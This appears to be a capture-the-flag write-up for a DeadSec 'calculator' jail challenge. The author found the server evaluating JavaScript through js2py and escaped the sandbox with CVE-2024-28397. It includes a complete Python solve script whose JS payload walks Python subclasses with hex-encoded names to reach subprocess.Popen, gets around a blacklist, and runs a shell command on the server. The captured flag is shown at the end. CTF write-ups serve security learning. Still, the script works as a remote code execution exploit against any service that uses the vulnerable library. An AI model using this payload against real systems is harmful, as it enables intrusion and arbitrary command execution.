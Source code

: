 ```yaml
---
ai_date: '2025-04-27 05:15:11'
ai_summary: 'Exploited a vulnerability in the js2py library to bypass sandbox restrictions
  and execute arbitrary code, retrieving the flag: DEAD{Js_2_Py_3sc4p3_wr3ck3d_my_b0x}'
ai_tags:
- js2py
- sandbox-escape
- cve-2024-28397
created: 2024-07-27T06:35
description: Copy paste CVE script kiddie still blooded the challenge
points: 220
solves: 29
tags:
- jail
- js2py
- blood
updated: 2024-07-28T04:22
---
```


> This is my first calculator ever, and it might have a 0day!!!

## Analysis

### eval

```bash
curl "https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result" ^
  --data-raw '{"inputs":"9 + 9"}'
# {"result":"18","status":"success"}
```

Obviously the server is running some sort of `eval`.

After a few probes, I realized that the server is running python, and executing our code as JS. (weird)

```js
()=>{}
"SyntaxError: Line 1: ArrowFunction is not supported by ECMA 5.1"
```

### `js2py`

A bit of researching later I realized that the server is using `js2py`.

After which I found a CVE for `js2py`, and the [poc script](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py).

I used hex encoded code ran inside of `eval()` block to avoid blacklist.

It worked, but turns out that was unintended when the author DM-ed me, he did not saw `eval` coming.

So I modified the solve script a little to work even after he patched eval.

Just use hex encoded indexers, lol.

Credits to [Marven11/CVE-2024-28397-js2py-Sandbox-Escape: CVE-2024-28397: js2py sandbox escape, bypass pyimport restriction. (github.com)](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

## Solve Script

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


# https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py
payload = """
let cmd = "cat ../flag.txt"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()) {
        let item = o['\\x5F\\x5F\\x73\\x75\\x62\\x63\\x6C\\x61\\x73\\x73\\x65\\x73\\x5F\\x5F']()[i]
        if(item.__module__ == "\\x73\\x75\\x62\\x70\\x72\\x6F\\x63\\x65\\x73\\x73" && item.__name__ == "\\x50\\x6F\\x70\\x65\\x6E") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
n11
"""
r = requests.post("https://22e4f6ab4aa07cbe99e7f5e8.deadsec.quest/result", json={"inputs": payload})
print(r.text)
```

```flag
DEAD{Js_2_Py_3sc4p3_wr3ck3d_my_b0x}
```